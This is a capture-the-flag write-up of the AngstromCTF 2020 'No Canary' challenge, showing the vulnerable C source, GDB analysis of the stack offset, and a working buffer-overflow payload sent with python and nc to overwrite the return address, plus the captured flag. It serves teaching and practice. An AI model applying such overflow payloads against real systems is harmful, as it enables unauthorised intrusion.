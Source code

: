 ```yaml
---
layout: post
title: AngstromCTF 2020 - No Canary
excerpt: "Writeup for basic buffer overflow challenge from AngstromCTF 2020"
categories: [AngstromCTF 2020, pwn]
---
```


### No Canary

No Canary was the first challenge in the Binary category from AngstromCTF 2020. The challenge provided a 64-bit executable and some source code (below). Viewing the source, it is apparent that a 20 character buffer is initialized, and the vulnerable function `gets` allows us to supply input into that buffer. Since `gets` doesn't limit how many characters we write into the buffer, we can write more than 20, resulting in a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).

{% highlight c %}

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	puts("Ahhhh, what a beautiful morning on the farm!\n");
	puts("       _.-^-._    .--.");
	puts("    .-'   _   '-. |__|");
	puts("   /     |_|     \\|  |");
	puts("  /               \\  |");
	puts(" /|     _____     |\\ |");
	puts("  |    |==|==|    |  |");
	puts("  |    |--|--|    |  |");
	puts("  |    |==|==|    |  |");
	puts("^^^^^^^^^^^^^^^^^^^^^^^^\n");
	puts("Wait, what? It's already noon!");
	puts("Why didn't my canary wake me up?");
	puts("Well, sorry if I kept you waiting.");
	printf("What's your name? ");

	char name[20];
	gets(name);

	printf("Nice to meet you, %s!\n", name);
}

{% endhighlight %}

Since the source features a "flag" function it's safe to assume that the goal is to overwrite the return pointer of main to point to this function. I started off by running the challenge in my [ctf docker](https://github.com/hoefler02/ctfdoc). As expected, writing more than 20 characters into the buffer resulted in a segmentation fault.

```
root@9dc002f9142e /pwn# chmod +x no_canary
root@9dc002f9142e /pwn# ./no_canary 
Ahhhh, what a beautiful morning on the farm!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Wait, what? It's already noon!
Why didn't my canary wake me up?
Well, sorry if I kept you waiting.
What's your name? AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB
Nice to meet you, AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB!
fish: './no_canary' terminated by signal SIGSEGV (Address boundary error)
root@9dc002f9142e /pwn# 
```

To figure out how to exploit this, I launched [GDB](https://www.gnu.org/software/gdb/) to find the offset of the buffer and the return pointer which we want to overwrite. 

```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000401199 <+0>:	push   rbp
   0x000000000040119a <+1>:	mov    rbp,rsp
   0x000000000040119d <+4>:	sub    rsp,0x20
   0x00000000004011a1 <+8>:	mov    rax,QWORD PTR [rip+0x2ec8]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x00000000004011a8 <+15>:	mov    ecx,0x0
   0x00000000004011ad <+20>:	mov    edx,0x2
   0x00000000004011b2 <+25>:	mov    esi,0x0
   0x00000000004011b7 <+30>:	mov    rdi,rax
   0x00000000004011ba <+33>:	call   0x401090 <setvbuf@plt>
   0x00000000004011bf <+38>:	mov    rax,QWORD PTR [rip+0x2e9a]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x00000000004011c6 <+45>:	mov    ecx,0x0
   0x00000000004011cb <+50>:	mov    edx,0x2
   0x00000000004011d0 <+55>:	mov    esi,0x0
   0x00000000004011d5 <+60>:	mov    rdi,rax
   0x00000000004011d8 <+63>:	call   0x401090 <setvbuf@plt>
   0x00000000004011dd <+68>:	mov    eax,0x0
   0x00000000004011e2 <+73>:	call   0x401080 <getegid@plt>
   0x00000000004011e7 <+78>:	mov    DWORD PTR [rbp-0x4],eax
   0x00000000004011ea <+81>:	mov    edx,DWORD PTR [rbp-0x4]
   0x00000000004011ed <+84>:	mov    ecx,DWORD PTR [rbp-0x4]
   0x00000000004011f0 <+87>:	mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004011f3 <+90>:	mov    esi,ecx
   0x00000000004011f5 <+92>:	mov    edi,eax
   0x00000000004011f7 <+94>:	mov    eax,0x0
   0x00000000004011fc <+99>:	call   0x401040 <setresgid@plt>
   0x0000000000401201 <+104>:	lea    rdi,[rip+0xe18]        # 0x402020
   0x0000000000401208 <+111>:	call   0x401030 <puts@plt>
   0x000000000040120d <+116>:	lea    rdi,[rip+0xe3a]        # 0x40204e
   0x0000000000401214 <+123>:	call   0x401030 <puts@plt>
   0x0000000000401219 <+128>:	lea    rdi,[rip+0xe45]        # 0x402065
   0x0000000000401220 <+135>:	call   0x401030 <puts@plt>
   0x0000000000401225 <+140>:	lea    rdi,[rip+0xe50]        # 0x40207c
   0x000000000040122c <+147>:	call   0x401030 <puts@plt>
   0x0000000000401231 <+152>:	lea    rdi,[rip+0xe5b]        # 0x402093
   0x0000000000401238 <+159>:	call   0x401030 <puts@plt>
   0x000000000040123d <+164>:	lea    rdi,[rip+0xe66]        # 0x4020aa
   0x0000000000401244 <+171>:	call   0x401030 <puts@plt>
   0x0000000000401249 <+176>:	lea    rdi,[rip+0xe71]        # 0x4020c1
   0x0000000000401250 <+183>:	call   0x401030 <puts@plt>
   0x0000000000401255 <+188>:	lea    rdi,[rip+0xe7c]        # 0x4020d8
   0x000000000040125c <+195>:	call   0x401030 <puts@plt>
   0x0000000000401261 <+200>:	lea    rdi,[rip+0xe59]        # 0x4020c1
   0x0000000000401268 <+207>:	call   0x401030 <puts@plt>
   0x000000000040126d <+212>:	lea    rdi,[rip+0xe7b]        # 0x4020ef
   0x0000000000401274 <+219>:	call   0x401030 <puts@plt>
   0x0000000000401279 <+224>:	lea    rdi,[rip+0xe90]        # 0x402110
   0x0000000000401280 <+231>:	call   0x401030 <puts@plt>
   0x0000000000401285 <+236>:	lea    rdi,[rip+0xea4]        # 0x402130
   0x000000000040128c <+243>:	call   0x401030 <puts@plt>
   0x0000000000401291 <+248>:	lea    rdi,[rip+0xec0]        # 0x402158
   0x0000000000401298 <+255>:	call   0x401030 <puts@plt>
   0x000000000040129d <+260>:	lea    rdi,[rip+0xed7]        # 0x40217b
   0x00000000004012a4 <+267>:	mov    eax,0x0
   0x00000000004012a9 <+272>:	call   0x401060 <printf@plt>
   0x00000000004012ae <+277>:	lea    rax,[rbp-0x20]
   0x00000000004012b2 <+281>:	mov    rdi,rax
   0x00000000004012b5 <+284>:	mov    eax,0x0
   0x00000000004012ba <+289>:	call   0x401070 <gets@plt>
   0x00000000004012bf <+294>:	lea    rax,[rbp-0x20]
   0x00000000004012c3 <+298>:	mov    rsi,rax
   0x00000000004012c6 <+301>:	lea    rdi,[rip+0xec1]        # 0x40218e
   0x00000000004012cd <+308>:	mov    eax,0x0
   0x00000000004012d2 <+313>:	call   0x401060 <printf@plt>
   0x00000000004012d7 <+318>:	mov    eax,0x0
   0x00000000004012dc <+323>:	leave  
   0x00000000004012dd <+324>:	ret    
End of assembler dump.

(gdb) b *0x00000000004012bf
Breakpoint 1 at 0x4012bf
(gdb) b *0x00000000004012dd
Breakpoint 2 at 0x4012dd

(gdb) r
Starting program: /pwn/no_canary 
Ahhhh, what a beautiful morning on the farm!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Wait, what? It's already noon!
Why didn't my canary wake me up?
Well, sorry if I kept you waiting.
What's your name? AAAABBBB

Breakpoint 1, 0x00000000004012bf in main ()

(gdb) x/4xg $rsp
0x7fffffffe640:	0x4242424241414141	0x0000000000401000
0x7fffffffe650:	0x00007fffffffe740	0x0000000000000000
(gdb) c
Continuing.
Nice to meet you, AAAABBBB!

Breakpoint 2, 0x00000000004012dd in main ()
(gdb) x/4xg $rsp
0x7fffffffe668:	0x00007ffff7a2d830	0x0000000000000001
0x7fffffffe678:	0x00007fffffffe748	0x00000001f7ffcca0
(gdb) x flag
0x401186 <flag>:	0xe5894855
(gdb) q
```

Examining the stack pointer after the gets call showes us that the buffer starts at the address `0x7fffffffe640`. We also find the return pointer at `0x7fffffffe668` and the flag function at `0x401186`. Finally, we can used python to subtract the buffer address from the return pointer address. This will tell us how many characters we need to write to reach the return pointer.

```
Python 2.7.12 (default, Oct  8 2019, 14:14:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x7fffffffe668 - 0x7fffffffe640
40
```

Since we know the address of the flag function and the offset we need to write to get to the return pointer (40), we are ready to write an exploit to try on the challenge server (shell.actf.co on port 20700). I used inline python for this, but [pwntools](https://github.com/Gallopsled/pwntools) would have worked just as well. As a side note, make sure to always put your addresses in [little endian](https://en.wikipedia.org/wiki/Endianness) as I did below. 

```
root@9dc002f9142e /pwn# python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00\x00\x00'" | nc shell.actf.co 20700
Ahhhh, what a beautiful morning on the farm!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Wait, what? It's already noon!
Why didn't my canary wake me up?
Well, sorry if I kept you waiting.
What's your name? Nice to meet you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?@!
actf{that_gosh_darn_canary_got_me_pwned!}
Segmentation fault
```

This gives `actf{that_gosh_darn_canary_got_me_pwned!}`, which is the flag to the challenge!